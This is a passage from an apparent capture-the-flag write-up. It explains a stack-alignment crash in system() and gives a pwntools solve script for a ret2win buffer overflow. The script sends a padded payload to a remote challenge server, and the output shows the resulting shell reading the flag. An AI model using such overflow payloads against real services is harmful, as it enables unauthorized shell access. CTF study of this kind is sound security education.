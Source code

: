 ```console
05:0028│-058   0x7fffffffda10 —▸ 0x7fffffffda68 ◂— 0x0
06:0030│-050   0x7fffffffda18 —▸ 0x7ffff7fcae88 ◂— 0x31700
07:0038│-048   0x7fffffffda20 ◂— 0x0
─────────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────────
 ► 0   0x7ffff7e0c44b do_system+363
   1         0x401149 shell+19
   2   0x7fffffffde00
   3         0x40114c main
   4      0x100400040
   5   0x7fffffffdea8
   6   0x7fffffffdea8
   7 0x4e1a419aff9ed7a8
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
It causes a Segmentation Fault at `► 0x7ffff7e0c44b <do_system+363>    movaps xmmword ptr [rsp + 0x50], xmm0`. This is a well known issue of stack misalignment.
> Read more about stack alignment [here](https://stackoverflow.com/questions/672461/what-is-stack-alignment)
{: .prompt-tip}
Basically since we returned-into or jumped-into the `shell()` function instead of calling it, the stack isn't 16-bit aligned anymore. This didn't affect `execve` but it does cause `system` to crash. The workaround is simple, return to a `ret` instruction before returning to `shell()`, this will cause the stack to be 16-bit aligned and `system` will work correctly. Here's the final solve script:
```py
import pwn

p64 = lambda x : pwn.pack(x, word_size=64)

elf = pwn.ELF('./patched-shell', checksec=False)
# p = pwn.process('./patched-shell')
p = pwn.remote('34.134.173.142', 5000)

offset = 72
payload  = b''
payload += b'A' * offset
payload += p64(elf.symbols['shell']+21)
payload += p64(elf.symbols['shell'])

p.sendline(payload)

p.interactive()
```
{: file="solve.py"}
> `elf.symbols['shell']+21` points to the final `ret` instruction of `shell()` function itself, you can choose any other `ret` if you wish.
{: .prompt-info}
```console
> python solve.py
[+] Opening connection to 34.134.173.142 on port 5000: Done
[*] Switching to interactive mode
$ ls
flag
run
$ cat flag
uoftctf{patched_the_wrong_function}
```
### Flag
`uoftctf{patched_the_wrong_function}`
